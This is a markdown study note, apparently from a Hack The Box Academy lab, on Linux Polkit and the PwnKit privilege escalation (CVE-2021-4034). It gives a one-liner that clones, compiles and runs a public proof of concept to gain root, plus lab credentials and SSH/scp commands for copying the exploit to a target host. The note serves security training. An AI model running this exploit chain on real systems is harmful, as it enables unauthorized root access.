# Polkit

> [!info] What is Polkit?
> It is a Linux service that allows user software and system components to communicate with each other if the user software is allowed to communicate as well.
> Custom rules can be placed in /etc/polkit-1/localauthority/50-local.d with the file extension .pkla
> Local authority rules can be used to grant or revoke user and group permissions

## TOC
- [File Groups](file-groups)
- [pkexec pkaction pkcheck](pkexec-pkaction-pkcheck)
- [Privilege Escalation](privilege-escalation)

### File Groups

Polkit works with two file groups:
1 actions/policies located @ 
``` python
(/usr/share/polkit-1/actions)
```
2 rules located @
```python
/usr/share/polkit-1/rules.d
```



### pkexec pkaction pkcheck

`pkexec` - runs a program with the rights of another user or with root rights
`pkaction` - can be used to display actions
`pkcheck` - this can be used to check if a process is authorized for a specific action

Example
```
pkexec -u <user> <command>
pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

###  Privilege Escalation

pkexec memory corruption vulnerability via [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) aka [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

Exploit

```python
git clone https://github.com/arthepsy/CVE-2021-4034.git; cd CVE-2021-4034; gcc cve-2021-4034-poc.c -o poc; ./poc; id
```

## Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.113
```

SSH
```python
ssh htb-student@10.129.205.113
```

### Clone the CVE git folder
```python
git clone https://github.com/arthepsy/CVE-2021-4034.git
```

### Copy the directory to the target
```python
scp -r CVE-2021-4034 htb-student@10.129.205.113:/home/htb-student
```
